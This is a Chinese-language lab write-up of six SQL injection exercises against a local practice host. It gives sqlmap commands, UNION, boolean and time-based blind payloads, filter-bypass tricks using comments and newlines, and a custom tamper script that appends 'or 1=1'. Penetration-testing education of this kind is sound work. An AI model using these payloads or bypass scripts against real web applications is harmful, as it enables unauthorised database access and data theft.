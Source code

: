 ```yaml
---
title: Mysql数据库-sql injection
categories:
- web
tags:
- web
---
```


## 案例一：
`http://192.168.2.131/sqli/example1.php?name=root`

## 手工判断是否有注入
一般来说，报错型注入是最好判断的。

通过**添加单引号**，页面返回内容，发现**和正常情况下不同**。虽然并没有报错，但可以用sqlmap检测一下。

通过添加 **+**，mysql中，+代表空格。
name=root+++，而网页显示正常，说明将注入的字符解析为空格了。

#### sqlmap工具检查
`sqlmap -u "http://192.168.2.131/sqli/example1.php?name=root" --dbs`
![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-22/1.PNG)
```
Parameter: name (GET)
    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: name=root' UNION ALL SELECT NULL,CONCAT(CONCAT('qkxxq','KmpPokTYtZMOrkRgRUoPJDbxcbjTRzrokLLlMQen'),'qjvbq'),NULL,NULL,NULL-- PXHF
```

## 案例二：
`http://192.168.2.131/sqli/example2.php?name=root`
![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-22/2.PNG)

- 首先用sqlmap检查下，结果一片标红。

- `http://192.168.2.131/sqli/example2.php?name=root/*aaa*/`

- `name=root%0a` \n换行符

- `name=root%09` \t

#### burp intruder观察响应
观察一下响应。手工判断有点慢，用burp判断下
![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-22/3.PNG)

分为三种响应，一种是和原请求响应一样的；一种响应查询失败的；一种“error no space”

注意到

```
union select ---------“error no space”
union-------------查询失败
```

说明空格被过滤

- 添加空格转/**/脚本
sqlmap -u "http://192.168.2.131/sqli/example2.php?name=root" --tamper space2comment.py --dbs
扫描失败

- 指定布尔型注入
sqlmap -u "http://192.168.2.131/sqli/example2.php?name=root" --tamper=space2comment.py -technique B --dbms mysql --level 5

- 添加一个参数--dbms mysql，指定使用的payloads。
`sqlmap -u "http://192.168.2.131/sqli/example2.php?name=root" --tamper=space2comment.py --dbms mysql -v`
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values?

```
Parameter: name (GET)
    Type: AND/OR time-based blind 基于时间的盲注
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: name=root' AND SLEEP(5) AND 'WCkk'='WCkk
    Vector: AND [RANDNUM]=IF(([INFERENCE]),SLEEP([SLEEPTIME]),[RANDNUM])

```
#### 删除sqlmap日志
rm -rf /root/.sqlmap/output/*

sqlmap -u "http://192.168.2.131/sqli/example5.php?id=2" --dbs

#### 总结
sqlmap如果一开始扫描失败，如果需要再次尝试，需要清除一下日志，否则会直接引用历史扫描结果，不会再次扫描。

如果不指定数据库，或者注入类型，waf过滤的字符，就很容易扫描失败。
但这不代表并不存在注入。

## 案例三：

![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-22/5.PNG)
经过intruder判断，和上一个案例，多过滤了`%0a`即\n换行符。

同样用时间盲注。
sqlmap -u "http://192.168.2.131/sqli/example3.php?name=root" --tamper=space2comment.py --dbms mysql --dbs

```
Parameter: name (GET)
    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: name=root' AND SLEEP(5) AND 'nZha'='nZha

```
## 案例四：

![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-22/6.PNG)
`http://192.168.2.131/sqli/example4.php?id=2`
注释被正确解析了，其他都都导致页面查询失败。

- sqlmap -u "http://192.168.2.131/sqli/example4.php?id=2" --dbms mysql --dbs

```
Parameter: id (GET)
    Type: boolean-based blind
    Title: MySQL >= 5.0 boolean-based blind - Parameter replace
    Payload: id=(SELECT (CASE WHEN (5063=5063) THEN 5063 ELSE 5063*(SELECT 5063 FROM INFORMATION_SCHEMA.PLUGINS) END))

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: id=2 AND SLEEP(5)

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: id=2 UNION ALL SELECT NULL,NULL,CONCAT(0x716b6b6a71,0x6c4e495452554c4e514b6f53784f6c5a6b664e4d53674176646b4d4e4a4f52547850714663686d68,0x71766b7a71),NULL,NULL-- XTiX

```
## 案例五：
和上一个案例差不多。成功解析注释。
![7](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-22/7.PNG)

注入类型： Type: AND/OR time-based blind
`sqlmap -u "http://192.168.2.131/sqli/example5.php?id=2" --dbms mysql --dbs`

## 案例六：

![8](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-22/8.PNG)
%0a换行符、#注释符被正确解析。
错误提示：ERROR INTEGER REQUIRED

#### **选择与创建tamper脚本**
/usr/share/sqlmap/tamper目录下，有很多脚本可以帮助绕过过滤。

没有找到空格直接转换行符的脚本，于是观察一下空格转注释的脚本。运行sqlmap时候，用wireshark抓包一下。
![9](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-22/9.PNG)

![10](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-22/10.PNG)
确认空格转换为/**/，我们可以新建一个脚本，替换一下注释为换行符。
`cp space2comment.py space2newline.py`
`sed -i 's/\/\*\*\//%0a/g' space2newline.py`

- `sqlmap -u "http://192.168.2.131/sqli/example6.php?id=2" --dbms mysql --tamper=space2newline.py --dbs` 
失败了，于是尝试
?id=2%0Aand%0A1=1 一切正常
?id=2%0Aand%0A1=2 查询失败

#### **源代码**
黑盒测试不知道过滤条件，做不出了，于是看下源代码。

下面这条源代码还蛮好懂的，`^$`在正则表达式中，代表开头和结尾。

`^b`，表示以b开头；`b$`表示以b结尾。
```
if (!preg_match('/[0-9]+$/', $_GET["id"])) {
    die("ERROR INTEGER REQUIRED");  
}
```

#### **重写一个tamper脚本**
`sqlmap -u "http://192.168.2.131/sqli/example6.php?id=2" --dbms mysql --tamper=addTrue.py --dbs` 


这次成功了，基于时间的盲注。
```
Parameter: id (GET)
    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: id=2 AND SLEEP(5)-- jExG

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: id=2 UNION ALL SELECT NULL,NULL,CONCAT(0x71626a7071,0x6c6c5a494a6370686e4a6d5662726c49796e686a7455456745526e48654278634d57426b7467746a,0x7170626271),NULL,NULL-- RmtZ
```
## `addTrue.py`

```
#coding:utf-8
#!/usr/bin/env python

"""
Copyright (c) 2006-2017 sqlmap developers (http://sqlmap.org/)
See the file 'doc/COPYING' for copying permission
"""

from lib.core.enums import PRIORITY

__priority__ = PRIORITY.LOW

def dependencies():
    pass

def tamper(payload, **kwargs):
    """
    Notes:
        * Useful to bypass weak and bespoke web application firewalls

    >>> tamper('SELECT id FROM users')
    'SELECT id FROM users or 1=1'
    """

    retVal = payload

    if payload:
        retVal = payload+ " or 1=1"

    return retVal
```

